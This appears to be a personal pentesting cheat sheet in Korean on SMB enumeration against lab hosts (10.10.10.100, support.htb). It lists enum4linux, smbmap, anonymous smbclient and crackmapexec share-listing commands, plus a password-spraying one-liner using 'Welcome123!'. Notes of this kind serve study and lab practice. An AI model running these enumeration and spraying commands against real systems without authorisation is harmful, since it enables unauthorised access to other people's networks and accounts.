 # 139,445 - Pentesting SMB

<pre class="language-bash"><code class="lang-bash"><strong>enum4linux -a 10.10.10.100 #-a : 모든 정보 가져오기 
</strong>smbmap -H 10.10.10.100 
smbclient //10.10.10.100/Replication -U ""%""  #-U는 사용자 인증 정보 지정 옵션 (유저 아이디 같은 것) but 여기서는 빈문자열 ""%""을 사용하여 익명으로 접속
smbmap -H 10.10.10.100 -r #공유가능한 폴더 재귀적으로 나열 
crackmapexec smb support.htb #호스트 이름과 도메인 표시 
crackmapexec smb support.htb --shares #공유가능한 폴더 모두 표시 
smbclient -N -L //support.htb #-N : 인증 없이, -L : 호스트의 공유 목록 표시
</code></pre>

```bash
// SMB 명령어 
get <파일명> #파일 다운 명령어 

```

### 비밀번호 스프레이&#x20;

* 많은 사용자들에게 하나의 비밀번호를 대입하는 것&#x20;

```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success

```
